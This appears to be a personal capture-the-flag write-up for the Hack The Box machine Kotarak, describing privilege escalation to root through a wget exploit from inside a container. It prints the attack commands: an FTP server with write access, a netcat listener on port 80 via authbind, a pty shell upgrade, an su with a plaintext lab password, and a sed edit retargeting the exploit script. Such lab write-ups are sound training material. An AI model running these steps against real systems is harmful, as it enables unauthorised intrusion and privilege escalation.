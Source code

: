 
```bash
# Tmux is good one pane for each
# FTP server
python3 -m pyftpdlib -p21 -w
# python2 exploit
python2 wget-exploit.py
```

![1080](pyftpserverserving.png)

![](wgetexploiting.png)

Wget ATANAS
![](atanaswget.png)

My issue is that we are in a container. Secondly I am not trusting myself. The second picture points out the /root is avaliable. I presume it was mixture of tired and with cold, not trusting myself to go that is not a default configuration, Busra must be on point. I read [0xdf](https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html#shell-as-root) and I definately remember reading it before also. 

#### Clean run to root

Interesting I had paused. There is alot here.
![](archivestowget.png)
- IP of the host run the container.
- A different version of wget from the container.

Find indications of network traffic is directed to the box?

We need low-port usage so using `authbind` - [Wiki](https://en.wikipedia.org/wiki/Authbind)
```bash
authbind nc -lnvp 80
```

![](pleasearchive.png)

The only thing I need to point out here is that we are targeting 10.0.3.1 - so we need the same infrastructure on the box. 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=screen-256color 
# Ctrl Z
# Check rows and cols
stty -a
stty -raw echo;fg
stty rows 52 cols 117
su atanas - 
 f16tomcat!
```

Changes to the script
![](changeschanges.png)
Remembering packet economy:
```bash
sed -i 's/10.129.117/10.129.1.117/g' wget-exploit.py
```


```bash
authbind python -m pyftpdlib -p21 -w
authbind python wget-exploit.py
```